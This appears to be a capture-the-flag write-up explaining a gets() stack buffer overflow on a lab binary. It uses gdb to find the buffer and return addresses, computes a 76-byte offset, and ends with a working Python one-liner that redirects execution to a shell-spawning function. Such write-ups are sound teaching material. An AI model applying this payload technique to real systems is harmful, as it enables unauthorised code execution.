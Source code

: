 ## Buffer overflow with gets (level1)

This [binary](level1/source.c) uses gets() to fill a buffer from user input.
Gets is vulnerable since it does not check the buffer size when writing into it.
There is also a function run() which is not called by main but launches a shell.

All we have to do is to get the buffer address. Using gdb, I break in main just
before the gets call and get _eax_'s value:

```shell
# run gdb on the binary
gdb ./level1
# disassemble the main to get a look at the assembly code
(gdb) disass main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
# break before gets call
(gdb) b \*0x0804848d
Breakpoint 1 at 0x804848d
# start the program
(gdb) run
Starting program: /home/user/level1/level1

Breakpoint 1, 0x0804848d in main ()
# print eax
(gdb) x $eax
0xbffffb10:     0x080484a0
```

0xbffffb10 is the address inside the _eax_ register and 0x080484a0 is the value
at this address. To check that this is really the start of the buffer we can
fill it with some random text and print it after:

```shell
# break on the instruction after the gets() call
(gdb) b *0x08048495
# continue
(gdb) c
Continuing.
# input some string
some string

Breakpoint 3, 0x08048495 in main ()
# print the string from the start of the buffer
(gdb) p (char *)0xbffffb10
$6 = 0xbffffb10 "some string"
```

Now we must write some data to the buffer until we overwrite the return address
value. This is possible because the stack grows 'downwards' from the highest
memory addresses to the lowest and that the function's arguments and return
address are pushed to the stack before its local variables. So we know that the
local buffer will be situated before the return address in memory. The return
address on x86 systems is always situated at ebp's value + 4:

```shell
(gdb) x $ebp + 4
0xbffffb5c:     0xb7e454d3
# this checks out, since 0xbffffb5c is greater than 0xbffffb10.
```

This means that when the main function's execution will be done the next
instruction executed after the ret will be at 0xb7e454d3. What we want, to get
into the shell, is to replace this value with the run() function's address.
First get the address:

```shell
# info address returns the address of the given symbol
(gdb) i addr run
Symbol "run" is at 0x8048444 in a file compiled without debugging.
```

Then we have all we need to build our payload. The size of our buffer is equal
to the address of the return address minus the start of the buffer:
`bffffb5c-bffffb10 = 76`. This means that our payload should look like that:

| 0 ... 76    | 77 ... 80                  |
|-------------|----------------------------|
| filler data | run's address (0x08048444) |


```shell
# give the payload as input to level1
python -c 'print "a" * 76 + "\x44\x84\x04\x08"' | ./level1
```

> Note that the return address bytes have been reversed since we're dealing with
> a little endian system.
